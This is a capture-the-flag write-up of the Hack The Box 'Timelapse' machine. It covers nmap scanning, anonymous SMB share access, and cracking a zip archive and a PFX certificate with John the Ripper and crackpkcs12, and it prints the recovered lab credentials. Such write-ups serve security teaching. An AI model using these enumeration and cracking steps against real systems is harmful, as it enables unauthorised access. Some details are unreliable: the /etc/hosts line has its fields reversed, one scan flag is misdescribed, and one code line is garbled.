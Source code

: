 # Timelapse-writeup-apr-22



## Backdoor

![](../../.gitbook/assets/Screenshot-2022-03-31-at-08.25.15-e1648686344730.png)

## Reconnaissance <a href="#6b46" id="6b46"></a>

First thing.

I will echo the box name into my /etc/hosts file for DNS resolution.

```
echo "timelapse.htb  10.10.11.152" >> /etc/hosts
```

Using '>>' ensures the existing data is added to and not overwriten such as when using '>'.

I then make a directory of the box for all files using mkdir.

```
cd ~/HTB
mkdir Timelapse
```

I run a quick initial nmap scan to see which ports are open and which services are running on those ports. I generally export this to a file for later viewing. I had to use -sS as my nmap scans were being blocked by AV.

```
nmap -sS -p- -A timelapse.htb > nmap-initial.txt
```

* **-sS:** Stealth Mode
* **-p-:** Scan all ports (TCP/UDP)
* **-A:** Enable OS detection, versions

```
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.022s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-09 19:31:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-04-09T19:32:50+00:00; +8h01m35s from scanner time.
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
61953/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h01m34s, deviation: 0s, median: 8h01m34s
| smb2-time:
|   date: 2022-04-09T19:32:11
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

The results show a typical Active Directory Domain Controller, distinguishable by services DNS, Kerberos, SMB, LDAP etc..

* **Port 53:** dns
* **Port 88:** kerberos
* **Port 135:** rpc
* **Port 139/445:** smb
* **Port 389/636/3268/3269:** ldap
* **Port 5986:** winrm

## Enumeration <a href="#64a0" id="64a0"></a>

### **LDAP**

Attempts to gain information through LDAP were unsuccessful. I attempted to use LDAP3 to exploit LDAP information through NULL bind (unauthenticated) - This was met '_Connection Reset by Peer_'

This was the case for using Port 636 with SSL and Port 389 without SSL

```
import ldap3
server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port =636, use_ssl = True)
connection = ldap3.Connection(server)
connection.bind()
server.infoome code
```

![](<../../.gitbook/assets/image (3).png>)

### **SMB**

SMB has always proved some-what reliable for me during enumeration phases. I used tools smbclient & smbmap.

I use smbmap to discover network shares avaialble to be as 'Guest' or 'anonymous' access.

```
smbmap -H 10.10.11.152 -u Guest -p ""
```

* **-H:** Host / IP Address
* **-u:** User
* **-p:** Password

![](<../../.gitbook/assets/image (15).png>)

The results provide us with access to files under the \Shares\Dev & \Shares\Helpdesk.

The files of LAPS\_\* suggest that LAPS is implemented in the environment, meaning that there will be an account / group that will be able to read the Local Admin password from Active Directory.

The winrm\_backup.zip suggests that WinRM may have some additional out of box configurations.

I grab all the files using smbclient.

```
smbclient //10.10.11.152/Shares -u Guest -p ""
cd Dev
ls
get winrm_backup.zip
cd ../Helpdesk
get LAPS_Datasheet.docx
get LAPS_OperationsGuide.docx
get TechnicalSpecification.docx
```

![](<../../.gitbook/assets/image (34).png>)

![](<../../.gitbook/assets/image (7).png>)

ZIP file is protected with a password but the contents show a PFX.

![](<../../.gitbook/assets/image (35).png>)

I used a couple of tools to crack the .zip and then the PFX, mainly John-The-Ripper.

Cracking the .zip using zip2john - This will output the hash of the password on the .zip

```
zip2john winrm_backup.zip > zip-hash.txt
```

* zip2john \<file.zip> > \<hash file output>

![](<../../.gitbook/assets/image (26).png>)

Cracking the hash with John-The-Ripper.

```
john --wordlist=/usr/share/wordlist/rockyou.txt zip-hash.txt
```

* **John:** John-The-Ripper
* **--wordlist=:** Wordlist location / Wordlist to use - Rockyou.txt

![](<../../.gitbook/assets/image (36).png>)

Using the password from the .zip, I can now extract the PFX file.

![](<../../.gitbook/assets/image (16).png>)

legacyy\_dev_auth.pfx - The name of this PFX suggest it's used for authentication, given that it's contained within the winrm_backup.zip, I am guessing it's used for winrm. Also, the name legacyy is spelt incorrectly. I am also assuming that this may be a user on Timelapse that is used for Dev.

I use crackpkcs12 for my cracking encrypted pfx & p12 files.

```
crackpkcs12 -d /usr/share/wordlist/rockyou.txt legacyy_dev_auth.pfx -v
```

* **-d:** Dictionary Wordlist
* **-v:** Verbose mode

![](<../../.gitbook/assets/image (4).png>)

Given the name of the certificate, I have made a note that these are potential credentials:

* Username: legacyy
* Password: thuglegacy

